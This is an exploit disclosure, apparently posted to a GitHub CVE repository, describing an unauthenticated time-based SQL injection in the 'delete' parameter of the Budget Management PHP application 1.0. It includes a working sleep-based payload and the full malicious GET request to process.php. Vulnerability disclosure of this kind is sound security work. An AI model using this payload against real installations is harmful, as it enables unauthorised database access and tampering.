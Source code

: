 # Budget Management  - Unauthenticated SQL Injection
+ *Exploit Title:* Budget Management   - Unauthenticated SQL Injection - delete parameter
+ *Date:* 2024-05-05
+ *Exploit Author:* Asif Nawaz Minhas
+ *Vendor Homepage:* https://code-projects.org/budget-management-in-php-with-source-code/
+ *Software Link:* https://download.code-projects.org/details/1c10fce2-3260-479b-878f-b2107dec72f9
+ *Version:* 1.0
+ *Tested on:* Kali Linux + PHP 8.2.12, Apache 2.4.58
+ *CVE:* Requested CVE 

## Description:
Budget Managemen is vulnerable to a unauthenticated SQL injection vulnerability.
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to http://localhost/PHP-Budget-Calculator/index.php
+ Add in Budget Title b2 and in Amount 111 and then click on the button Save.
+ Click now on the button delete and intercept this request
+ Add this payload: (select*from(select(sleep(12)))a)
+ The full GET reqeust becomes now like this: GET /PHP-Budget-Calculator/process.php?delete=(select*from(select(sleep(12)))a)
+ Click now on the button Forward.
+ Now you will see a time delay of 12 seconds, thus confirming the unauthenticated time based sql injection.




![SQLi](https://github.com/ethicalhackerNL/CVEs/blob/931ee2513e921398ebd038a312e13c491ea90e9f/Budget%20Management/print5.png )

![SQLi](https://github.com/ethicalhackerNL/CVEs/blob/931ee2513e921398ebd038a312e13c491ea90e9f/Budget%20Management/print4.png)


